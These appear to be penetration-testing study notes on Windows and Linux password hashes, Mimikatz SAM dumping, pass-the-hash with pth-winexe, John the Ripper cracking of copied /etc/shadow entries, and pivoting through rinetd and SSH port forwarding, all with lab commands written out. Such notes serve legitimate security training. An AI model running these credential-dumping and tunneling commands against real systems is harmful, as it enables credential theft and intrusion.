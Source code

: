 	Users" hashes:
		Linus: /etc/shadow
		Windows: SAM (Security Accounts Manager)
			LM hashes: not salted, weak and breakable with hash lookup attach
			NTLM hash: more secure, but still not salted
			The SAM database cannot be copied while the operating system is running. However, we can use Mimikatz against the lsass service:
				c:\tools\password_attacks\mimikatz.exe
				[mimikatz] privilege::debug
				[mimikatz] token::elevate
				[mimikatz] lsadump::sam
Passing the hash in Windows:
	Passing the hashes in Windows (i.e. authenticating on multiple systems/services with username/hash instead of username/password) is possible because LM and NTLM hashes are not salted and hashes remain static over time
	passing-the-hash toolkit performs authentication via the SMB protocol:
	pth-winexe -U username%blablablahash //10.11.0.22 cmd
	NTLM hashes are passed over the network in the form of Net-NTLM hashes
Windows password cracking:
	If hashes are NOT salted, cracking is possible
	If hashes are salted, cracking is very very difficult, if not impossible
	In many real world scenarios, it is possible to capture both salt values and hashes to pass to the cracking sotfware (i.e. John the Ripper)
	John the Ripper:
		Pure brute force of every possible password: john hash.txt --format=NT
		Using a wordlist: john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		Using word mangling rules from /etc/john/john.conf: john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
Linux password cracking:
	sudo grep victim /etc/passwd > passwd-file.txt
	sudo grep victim /etc/shadow > shadow-file.txt
	unshadow passwd-file.txt shadow-file.txt > unshadowed-file.txt
	john --rules --wordlist=usr/share/wordlists/rockyou.txt unshadowed-file.txt

##### Port Redirection And Tuneling
Port forwarding with RINETD:
	sudo apt-get install rinetd
	sudo nano /etc/rinetd.conf
	Add the forwarding rules to redirect all incoming traffic on port 80 to google.com (IP 216.58.207.142) on port 80: 0.0.0.0 80 216.58.207.142 80
	sudo service rinetd restart
	ss -antp | grep "80"
SSH tunneling:
	SSH can create encrypted tunnels
	SSH local port forwarding: 
		It allows to tunnel a local port to a remote server using SSH as transport protocol, similarly to RINETD, with few twists
		On kali attacker machine: sudo ssh -N -L  [bind_address:]port:host:hostport [username@address]
		On kali attacker machine: sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
		On kali attacker machine: smbclient -L 127.0.0.1 -U Administrator
	SSH remote port forwarding:
		It is the reverse of local port forwarding, because a port is open on the remote side of the connection and traffic sent to that port is forwarded to a port on our local attacker machine, where we run ssh command
		On the debian client: sudo ssh -N -R [bind_address:]port:host:hostport [username@address]
		On the debian client: sudo ssh -N -R 10.11.0.4:2221:127.0.0.1:3396 kali@10.11.0.4
		On kali attacker machine: ss -antp | grep "2221"
		On kali attacker machine: sudo nmap -sS -sV 127.0.0.1 -p 2221
	SSH dynamic port forwarding:
		it allows us to set a local listening port and have it tunnel incoming traffic to any remote destination thru the use of a proxy
		On kali attacker machine: ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
		On kali attacker machine: sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
